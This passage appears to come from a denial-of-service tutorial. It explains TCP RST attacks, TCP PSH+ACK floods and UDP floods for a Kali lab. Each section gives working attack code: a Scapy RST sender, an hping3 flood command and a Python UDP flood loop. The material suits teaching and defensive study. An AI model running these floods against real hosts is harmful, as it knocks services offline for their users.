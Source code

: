 #### b. **TCP RST Attack**

- **How It Works**: Sends forged TCP RST (reset) packets to abruptly terminate active connections between the target and legitimate users.
- **Target**: Active TCP sessions (e.g., user connections to a web server).
- **Impact**: Disrupts ongoing connections, causing service interruptions.
- **Example Tool**: Scapy (Python).
  ```python
  from scapy.all import *
  packet = IP(dst="<target_IP>")/TCP(sport=12345, dport=80, flags="R")
  send(packet, loop=1, verbose=0)
  ```
- **Difference**: Unlike SYN floods, RST attacks disrupt existing connections rather than creating new ones.

#### c. **TCP PSH+ACK Flood**

- **How It Works**: Sends TCP packets with PSH (push) and ACK flags, forcing the target to process data immediately, overwhelming the application layer.
- **Target**: Application handling TCP data (e.g., web servers).
- **Impact**: Consumes server CPU/memory by forcing rapid data processing.
- **Example Tool**: `hping3`.
  ```bash
  hping3 -A -P --flood -p 80 <target_IP>
  ```
- **Difference**: Targets application processing rather than connection establishment, unlike SYN floods.

## 2. UDP-Based Attacks

UDP (User Datagram Protocol) is connectionless, sending packets without handshakes, making it ideal for high-volume, low-effort floods. UDP-based DDoS attacks aim to saturate bandwidth or overload services.

### Common UDP-Based Attack Methods

#### a. **UDP Flood**

- **How It Works**: Sends a massive volume of UDP packets to random or specific ports on the target, overwhelming its network stack or bandwidth.
- **Target**: Network interfaces, firewalls, or services listening on UDP ports (e.g., DNS, NTP).
- **Impact**: Consumes bandwidth and processing power, causing latency or crashes.
- **Example Code**: Python-based UDP flood (from previous lesson).
  ```python
  import socket
  import random
  target_ip = "192.168.56.101"  # Target VM IP
  target_port = 80
  sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
  bytes = random._urandom(1490)
  while True:
      sock.sendto(bytes, (target_ip, target_port))
      print(f"Sent UDP packet to {target_ip}:{target_port}")
  ```
- **Lab Demo**:
  1. Run the script on Kali.
  2. On the target, use `tcpdump udp` to observe packet flood.
- **Difference**: UDP floods are simpler than TCP attacks, requiring no handshake, but they focus on raw bandwidth exhaustion.
